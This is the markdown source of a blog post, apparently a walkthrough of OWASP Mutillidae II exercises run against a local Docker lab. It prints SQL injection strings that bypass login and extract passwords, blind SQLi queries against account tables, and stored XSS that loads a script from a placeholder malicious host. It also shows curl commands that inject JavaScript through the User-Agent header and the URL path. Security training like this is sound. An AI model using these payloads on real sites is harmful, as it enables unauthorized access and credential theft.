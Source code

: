 ```yaml
---
draft: false
title: "Learning web app secuiry with OWASP Mutillidae II - part 1"
slug: "mutillidae-ii-part-1"
date: "2018-01-23T14:41:50+01:00"
categories:
  - security
  - learning
tags:
    - security
    - owasp
    - mutillidae
    - pentesting
cover:
  image: /img/2017/002/owasp_full_logo.png
  caption: OWASP logo
  style: normal
---
```

# iNSTALLATION

Run `nowasp` container:
```bash
docker run -p 8888:80 -p 3306:3306 citizenstig/nowasp
```

Go to [http://localhost:8888/](http://localhost:8888/), and build the DB.


# eXCERCICES:

## OWASP 2013

### A1 - Injection (SQL) - SQLi Extract data - User info

Submit the form with such query in the `Name` field:
```
admin'-- AND 'password='password'
```

Response:
```
Username=admin
Password=adminpass
Signature=g0t r00t?
```

### A1 - Injection (SQL) - SQLi Bypass authentication - Login

You can use the same query in the `Name` field:
```
admin'-- AND 'password='password'
```

Response:
```
Logged In Admin: admin (g0t r00t?)
```

### A1 - Injection (SQL) - SQLi Insert Injection - Add to your blog


*Stored Cross-Site Scripting*
```
<script src="http://malicious.site.com/bad.js"></script>
```
Once saved, check your browser's Network requests using e.g. Developer tools:

{{< gallery title="Stored Cross-Site Scripting" >}}
{{< figure link="/img/2017/002/OWASP-2013-A1-Add_to_your_blog-Stored_Cross-Site_Scripting.png" thumb="-thumb" size="1311x204" caption="Stored Cross-Site Scripting" >}}
{{< /gallery >}}

{{< pswp-init >}}


get MySQL version:
```
'+SUBSTRING(@@version,1,10)+'
```

Red herrings: queries that don't fail but don't give much info back:
```
'+(SELECT IF(1=1,'true','false'))+'
'+(SELECT password FROM accounts WHERE username="root")+'
'+SUBSTRING((SELECT password FROM accounts WHERE username="root"),1,10)+'
'+(SELECT table_name FROM information_schema.tables WHERE table_schema = "nowasp.accounts")+'
'+(SELECT column_name FROM information_schema.columns WHERE table_schema = "nowasp.accounts")+'
'+SUBSTRING(SELECT table_name, column_name FROM information_schema.columns WHERE table_schema = "nowasp.accounts",1,50)+'
'+SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name="accounts"),1,50)+'
aaa', now()); SELECT * FROM accounts; --
aaa', IF(1=1,'true','false'));#
aaa', IF(1=1, SELECT * FROM members, 'false'));#
'+ (SELECT password FROM accounts WHERE login='admin' ) +'
'+(SELECT password FROM members WHERE login="admin")+'
'+(SELECT IF(1=1,'true','false'))+'
admin'-- AND SELECT * FROM accounts;
```


### A1 - Injection (SQL) - SQLi Insert Injection - Register for an Account

HTMLi - 
add this to the registration signature:
```html
<CANARY={}""()'';#$--/>1
```
or simply add XSS
```
<CANARY={}""()'';#$--/><script>alert("welcome");</script>
```
Then log in as newly created user and see that `1` is visible next to the user name in top menu:

{{< gallery title="HTMLi" >}}
{{< figure link="/img/2017/002/OWASP-2013-A1-Add_to_your_blog-HTMLi.png" thumb="-thumb" size="1419x559" caption="HTMLi" >}}
{{< /gallery >}}

{{< pswp-init >}}


### A1 - Injection (SQL) - SQLi Insert Injection - View Captured Data

Here's one of my favs:
*Application Log Injection:*
You can send a dummy HTTP request with `User-Agent` header containing JS:
```bash
curl http://localhost:8888/index.php?page=register.php -H "User-Agent: <script>alert('pwnd with Application Log Injection');</script>"  &> /dev/null
```

or abuse the fact that the `endpoint` part of the URL is interpretted and logged so that we can include JS in it:
```bash
curl "http://localhost:8888/<script>alert('query_param');</script>" &> /dev/null
```

Once you send the request, then go to the [http://localhost:8888/index.php?page=show-log.php](http://localhost:8888/index.php?page=show-log.php) the alert pop-ups will appear.

*NOTES:*

* can you create an account for `root` user???


http://localhost:8888/index.php?page=capture-data.php
```
curl http://localhost:8888/index.php?page=capture-data.php&showhints=1 -H "PHPSESSID: 5hdie94hhe7cc50pqsbvujqkb3"
```
